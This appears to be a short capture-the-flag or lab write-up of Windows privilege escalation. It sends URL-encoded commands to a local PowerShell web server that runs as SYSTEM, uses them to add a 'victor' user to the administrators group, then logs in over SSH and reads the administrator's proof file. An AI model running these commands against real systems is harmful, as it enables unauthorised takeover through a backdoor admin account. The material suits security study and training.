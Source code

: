 ```bash
Infrastructure Notes
Temporary Command endpoint: http://nickel/?
Backup system: http://nickel-backup/backup
NAS: http://corp-nas/files
```

```bash
(iwr http://localhost/?whoami -usebasicparsing).RawContent

# output
HTTP/1.1 200 OK                                                                                                                        
Content-Length: 118
Date: Wed, 28 Jul 2021 01:43:22 GMT
Last-Modified: Tue, 27 Jul 2021 18:43:22 GMT
Server: Powershell Webserver/1.2 on Microsoft-HTTPAPI/2.0

<!doctype html><html><body>dev-api started at 2020-10-20T10:38:24

        <pre>nt authority\system
</pre>
</body></html>
```

```bash
net user /add victor password; net localgroup administrators victor /add
net%20user%20%2Fadd%20victor%20password%3B%20net%20localgroup%20administrators%20victor%20%2Fadd
```

```
(iwr http://localhost/?net%20user%20%2Fadd%20victor%20password%3B%20net%20localgroup%20administrators%20victor%20%2Fadd -use basicparsing).RawContent

# output
HTTP/1.1 200 OK
Content-Length: 175
Date: Wed, 28 Jul 2021 01:42:31 GMT
Last-Modified: Tue, 27 Jul 2021 18:42:31 GMT
Server: Powershell Webserver/1.2 on Microsoft-HTTPAPI/2.0

<!doctype html><html><body>dev-api started at 2020-10-20T10:38:24

        <pre>The command completed successfully.

The command completed successfully.

</pre>
</body></html>
```

```bash
exit
ssh victor@192.168.222.99 # password
type c:\users\administrator\desktop\proof.txt

# output
5e5099aec5aafe58bd8ba5bd141f6b6c
```
